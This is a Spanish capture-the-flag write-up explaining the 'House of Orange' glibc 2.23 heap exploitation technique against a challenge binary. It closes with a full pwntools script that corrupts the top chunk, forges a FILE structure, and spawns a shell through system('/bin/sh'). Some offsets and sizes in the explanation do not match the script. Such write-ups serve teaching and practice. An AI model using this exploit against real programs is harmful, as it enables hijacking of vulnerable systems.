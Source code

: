 # House Of Orange
```
  Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    Stripped:   No
    Debuginfo:  Yes
```

Tal y como en `House of Force` hay un heap overflow que nos permite sobreescribir el top chunk. Esta vez las asignaciones con malloc no son de tamaño arbitrario. La version de glibc es 2.23 asi que podemos implementar la tecnica clasica que da nombre al reto.

Pasos:
1. Hacemos un "alloc (small)" y sobreescribimos con el overflow en este chunk en campo size del top chunk para que contenga un valor menor al espacio solicitado en un "alloc (large)". El nuevo tamaño que usamos, `0xfe01`, cumple ciertas condiciones necesarias:

    |                                                              |                                      |                  
    |--------------------------------------------------------------|--------------------------------------|
    | ((unsigned long) (old_size) >= MINSIZE                       | Debe ser al menos 0x20 bytes         |
    |  prev_inuse (old_top)                                        | Debe tener el byte PREV_INUSE activo |
    | ((unsigned long) old_end & (pagesize - 1)) == 0              | La direccion de top_chunk + size debe estar alineado a la pagina: (top_chunkaddr + size) & 0xfff == 0) |

2. Hacemos un "alloc (large)". Esto provoca que el top chunk se libere y vaya a `unsortedbin`.
3. Sobreescribimos de nuevo el top chunk:
  + Cambiamos su campo size a 0x61.
  + Cambiamos su campo bk a `_IO_list_all` - 0x10.
  + Creamos una estructura _IO_FILE_plus falsa con algunos valores especificos:

| Dirección relativa             | Descripción                                                                 |
|-------------------------------|------------------------------------------------------------------------------|
| top chunk                     | Cadena "/bin/sh\x00"                                                        |
| top chunk + 0x08              | Valor 0x61                                                                  |
| top chunk + 0x18              | Dirección de `_IO_list_all - 0x10`                                          |
| top chunk + 0x20              | Campo `_IO_write_base = 2`                                                  |
| top chunk + 0x28              | Campo `_IO_write_ptr = 3`                                                   |
| top chunk + 0x68              | Entrada falsa de vtable                                                     |
| top chunk + 0x70              | Entrada falsa de vtable                                                     |
| top chunk + 0x78              | Entrada falsa de vtable                                                     |
| top chunk + 0x80              | Dirección de `system`                                                       |
| top chunk + 0xc0              | Campo `_mode = 0`                                                            |
| top chunk + 0xd0              | Campo `vtable = top chunk + 0x68`                                           |

4. Hacemos un "alloc (small)" que realiza varias cosas:
  + Dado que hay un chunk en `unsortedbin` y se reserva un chunk pequeño malloc intenta moverlo a una `smallbin`, especificamente a `smallbin[4]`, que contiene los chunks de tamaño 0x5a-0x62 bytes.
  + Al llamar a `unlink_chunk` en `unsortedbin`: `p->bk->fd = p->fd` o lo que es lo mismo `_IO_list_all - 0x10 + 0x10 = main_arena + 88`. 
  ```
  /* Cabe destacar que p->fd puede contener cualquier cosa porque cuando malloc intenta satisfacer una solicitud dividiendo
     este chunk libre el valor en chunk->bk->fd se sobrescribe con la dirección de la unsortedbin */

  /* Ahora el primer elemento de la lista de file streams es esa direccion de libc, necesitamos que su campo `_chain`, es decir,
 `main_arena + 88 + 0x68`, sea igual a la direccion de nuestro top chunk. */
 
  /* Al haber colocado el top chunk en `smallbin[4]` y ser el unico elemento entonces `smallbin[4]` (que es la misma direccion que `main_arena + 88 + 0x68`)
  contiene la direccion de nuestro chunk. Ya tenemos nuestra estructura en la cadena de file streams. */
 ```
  + Realiza verificaciones de sanidad sobre nuestro chunk, falla y llama a `abort()` que limpia todos buffers de los punteros FILE por medio de invocar a ` _IO_flush_all_lockp`, que al final llama a `_IO_OVERFLOW`.
 ```
  /* IO_OVERFLOW es el cuarto elemento de la vtable a la que apunta un file stream (lo reemplazamos por system en nuestra vtable falsa) y toma como argumento
  la direccion del file stream, de modo que IO_OVERFLOW(top_chunk_addr) acaba siendo system("/bin/sh\x00") */

  /* No obstante IO_OVERFLOW es llamado si se cumplen estas condiciones:
   * fp->_mode <= 0 && 
   * fp->_IO_write_ptr > fp->_IO_write_base
   Que ya satisficimos. */
 ```

## Exploit 

``` py
from pwn import *
r = process("./house_of_orange")
libc = ELF("./libc.so.6")


r.recvuntil(b"@ ")
libc.address = int(r.recv(14).strip().ljust(8,b"\x00"),16) - 0x675a0

r.recvuntil(b"@ ")
heap_base = int(r.recv(14).strip().ljust(8,b"\x00"),16)

# Phase 1: Put the top chunk in the unsorted bin
r.sendlineafter(b">",b"1")
r.sendlineafter(b">",b"3")
r.sendlineafter(b"data:",b"A" * 16 + p64(0) + p64(0x0fe1))
r.sendlineafter(b">",b"2")

# Phase 2: Modify the size of the top chunk to make it fit in smallbin[4]
#          Modify the top chunk bk pointer in unsorted bin to overwrite _IO_list_all with a main_arena relative address
#          Craft a fake FILE struct 

# 0x20: _IO_write_base = 2
# 0x28: _IO_write_ptr = 3
# 0x68: fake vtable
# 0xc0: _mode = 0
# 0xd8: vtable = top_chunk_address + 0x68

r.sendlineafter(b">",b"3")
payload = flat({
    0x0: [b"/bin/sh\x00", p64(0x61),
          p64(0), p64(libc.symbols['_IO_list_all'] - 0x10),
          p64(2), p64(3)],                                          
    0x68: [p64(0) * 3, p64(libc.symbols['system'])],      
    0xc0: [p64(0)],                             
    0xd8: [p64(heap_base + 0x20 + 0x68)],
    },filler="b\x00")
r.sendlineafter(b"data:", b"A" * 16 + payload)

# Phase 3: Trigger abort()
r.sendlineafter(b">",b"1")
r.interactive()
```




     
